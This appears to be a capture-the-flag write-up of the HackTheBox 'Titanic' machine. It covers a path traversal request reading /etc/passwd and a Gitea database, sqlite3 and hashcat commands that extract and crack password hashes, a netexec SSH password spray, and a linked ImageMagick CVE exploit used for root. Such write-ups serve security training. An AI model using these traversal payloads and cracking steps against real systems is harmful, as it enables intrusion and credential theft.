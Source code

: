 ```yaml
---
layout: post
title: HackTheBox - Titanic - Write-up
difficulty: easy
tags: [path_traversal, lfi, hashcat]
---
```

***

## Quick Hits:

| Info | Details |
| ---- | ------- |
| **IP Address** | 10.10.11.55 |
| **Difficulty** | 🟢 Easy |
| **Exploits** | Path Traversal, Local File Inclusion |
| **Tools Used** | `hashcat` |
| **Techniques Used** |  |
| **Interesting Files** | `~/gitea/data/gitea/conf/app.ini` |

#### Port Scan Results:

| Port | State | Service | Version |
| ---- | ----- | ------- | ------- |
| 22/tcp | open | ssh | OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0) |
| 80/tcp | open | http | Apache httpd 2.4.52 (Ubuntu) |

***

## Walk-through

We are greeted by a Cruise Service named after the infamous **Titanic**. One would usually think twice about any ship that's named after one that sank, but not here! Most of the site still seems to be under construction since most links are *dead*. Fortunately for the Cruise owners (or unfortunately, we'll see why later), the **Booking System** seems to be in order.

Booking a trip has the site respond back with a JSON confirmation of the trip, and a redirect to `/download` the `ticket`. Based on this, the ticket details are being stored in a JSON file in the back-end which is then served up to the browser for download.

### Path Traversal / Local File Inclusion

By simply changing the request from `GET /download?ticket={uuid}.json` to `GET /download?ticket=../../../../etc/passwd`, we can grab files from the local file system. It's here that we can access the `/etc/hosts` file and find the `dev.titanic.htb` domain.

```
127.0.0.1  localhost  titanic.htb  dev.titanic.htb
127.0.1.1  titanic

\# The following lines are desirable for IPv6 capable hosts
::1  ip6-localhost ip6-loopback
fe00::0  ip6-localnet
ff00::0  ip6-mcastprefix
ff02::1  ip6-allnodes
ff02::2  ip6-allroutes
```

### Gitea

Visiting the newly acquired subdomain gives us a Gitea page with the `developer/docker-config` and `developer/flask-app` repos. `flask-app` contains the source of the Cruise website while `docker-config` contains the `docker-compose.yml` file used to start the `Gitea` instance.

We can recreate the `Gitea` docker instance using the `docker-compose.yml` file through the following commands.

`docker compose up -d`
`docker compose exec -it gitea sh`

This allows us to confirm the file structure of the `/home/developer/gitea` directory and obtain `/home/developer/gitea/data/gitea/conf/app.ini` using the LFI vulnerability earlier. This is the Gitea configuration file which contains a `PATH` to the `/data/gitea/gitea.db` file.

```
[database]
PATH = /data/gitea/gitea.db
DB_TYPE = sqlite3
HOST = localhost:3306
NAME = gitea
USER = root
PASSWD =
LOG_SQL = false
SCHEMA =
SSL_MODE = disable
```

Again using the LFI vulnerability, we can request this file and obtain the Gitea database. This contains password hashes of `administrator` and `developer` users that we can then run through `gitea2hashcat.py` and crack using the following command:

`sqlite3 gitea.db 'select salt,passwd from user;' | python3 gitea2hashcat.py`
`hashcat hashes.txt /usr/share/wordlists/rockyou.txt`

Giving us the credentials `developer`:`25282528`.

**TIP:** You can use netexec to password spray the usernames if they're not already filled.
`nxc ssh 10.10.11.55 -u users.txt -p '25282528'`

***And, we're in!***

### Privilege Escalation

Running `linpeas.sh` would give us an interesting script in `/opt/scripts/identify_images.sh`.

```
developer@@titanic:/opt/scripts$ cat identify_images.sh
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

This seems to run magick on all JPG images within a folder and then pipe those results into a log file.

```
developer@@titanic:/opt/scripts$ ls -al /opt/app/static/assets/images
total 1288
drwxrwx---  2  root  developer  4096  Feb  3  17:13 .
drwxr-x---  2  root  developer  4096  Feb  7  10:37 ..
-rw-r-----  1  root  developer  291864  Feb  3  17:13 entertainment.jpg
-rw-r-----  1  root  developer  280854  Feb  3  17:13 exquisite-dining.jpg
-rw-r-----  1  root  developer  209762  Feb  3  17:13 favicon.ico
-rw-r-----  1  root  developer  232842  Feb  3  17:13 home.jpg
-rw-r-----  1  root  developer  280817  Feb  3  17:13 luxury-cabins.jpg
-rw-r-----  1  root  developer  442  Jun  18  19:09 metadata.log
```

Seeing as `metadata.log` can only be written to by `root` and that changes are made to it every minute, it would be safe to say that `identify_images.sh` runs periodically using the `root` account and is a potential PrivEsc route.

Checking the `magick` version (`/usr/bin/magick -version`) gives us `ImageMagick` version v7.1.1-35, vulnerable to Arbitrary Code Execution in **CVE-2024-41817**.

We can then run the [exploit.py](https://raw.githubusercontent.com/Dxsk/CVE-2024-41817-poc/refs/heads/main/exploit.py) PoC script to obtain `root` access. **And, we're done!**

***

###### This is currently a Work-In-Progress. More changes to formatting, tags and explanations to come!
